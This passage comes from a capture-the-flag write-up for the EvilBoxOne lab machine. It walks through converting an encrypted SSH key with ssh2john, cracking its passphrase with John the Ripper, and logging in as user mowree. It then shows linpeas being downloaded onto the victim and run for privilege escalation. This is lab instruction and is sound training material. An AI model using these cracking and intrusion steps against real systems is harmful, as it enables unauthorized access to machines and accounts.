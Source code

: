 Awesome we have the RSA private key. That said, it's encrypted. Here we can use a python tool called `ssh2john`. This is a script that basically transforms [RSA/DSA/EC/OpenSSH (SSH private keys)] private key to `john` format for later cracking with **John the Ripper**.

```console
# /usr/share/john/ssh2john.py id_rsa > id.john
```                                                                                             
Now we can use `john` to crack it.

```console
# john id.john -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
unicorn          (id_rsa)
```

> **Passphrase:** unicorn

Now that we have a username, id_rsa private key, and the passphrase. Let's see if we can SSH in.

```console
# ssh mowree@10.0.2.16 -i id_rsa                      
Enter passphrase for key 'id_rsa': 
Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
mowree@EvilBoxOne:~$ id
uid=1000(mowree) gid=1000(mowree) grupos=1000(mowree)
mowree@EvilBoxOne:~$ whoami
mowree
```

## Privilege Escalation

For simplicity, we'll utilize `linpeas` - Linux Privilege Escalation Awesome Script.

![LinPEAS Logo](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/images/linpeas.png)

Here is the [GitHub Repo](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) for more info on LinPEAS.


1. Download `linpeas.sh` on the victim/target.
```console
mowree@EvilBoxOne:~$ cd /dev/shm/
mowree@EvilBoxOne:/dev/shm$ wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```

2. Run `linpeas.sh` and output data to a file
```console
#Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors
```
